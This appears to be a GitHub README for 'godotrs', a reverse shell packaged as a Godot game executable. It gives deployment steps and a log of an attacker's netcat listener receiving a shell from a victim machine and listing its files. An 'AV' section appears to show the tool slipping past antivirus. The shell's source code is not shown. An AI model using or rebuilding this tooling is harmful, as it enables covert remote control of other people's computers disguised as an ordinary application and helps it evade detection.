 # godotrs

portable godot (GDScript) based reverse shell

https://godotengine.org/download/

https://docs.godotengine.org/en/3.1/getting_started/scripting/index.html

Godot supports:
- GDScript (godot)
- VBScript
- C# (+Mono)

**Usage**

Create project, add script to main scene or trigger scene. 

deploy & run:
- godotrs.exe
- godotrs.pck

```
root@kali:~# nc -lvp 9999
listening on [any] 9999 ...
192.168.1.71: inverse host lookup failed: Unknown host
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.71] 58913
ls -lha
>[total 107664
drwxr-xr-x  14 WOPR  staff   448B Dec 17 09:15 .
drwxr-xr-x@  5 WOPR  staff   160B Dec 17 06:59 ..
drwxr-xr-x   4 WOPR  staff   128B Dec 17 06:59 .import
-rw-r--r--   1 WOPR  staff   500B Dec 17 08:47 Popup.gd
-rw-r--r--   1 WOPR  staff   191B Dec 17 09:15 Popup.tscn
-rw-r--r--   1 WOPR  staff   163B Dec 17 09:15 default_env.tres
-rw-r--r--   1 WOPR  staff   774B Dec 17 09:12 export_presets.cfg
-rw-r--r--   1 WOPR  staff   9.6M Dec 17 09:06 godotrs.appx
-rw-r--r--@  1 WOPR  staff    15M Dec 17 09:02 godotrs.dmg
-rw-r--r--   1 WOPR  staff    27M Dec 17 09:12 godotrs.exe
-rw-r--r--   1 WOPR  staff    18K Dec 17 09:12 godotrs.pck
-rw-r--r--@  1 WOPR  staff   7.4K Dec 17 06:59 icon.png
-rw-r--r--   1 WOPR  staff   640B Dec 17 06:59 icon.png.import
-rw-r--r--@  1 WOPR  staff   736B Dec 17 09:15 project.godot
```

**AV**

<img width="1401" alt="Screenshot 2019-12-17 at 09 13 29" src="https://user-images.githubusercontent.com/56988989/70982133-5d4dce80-20ae-11ea-84ca-e7b76b4847c7.png">

**Limitations**
- gfx support required
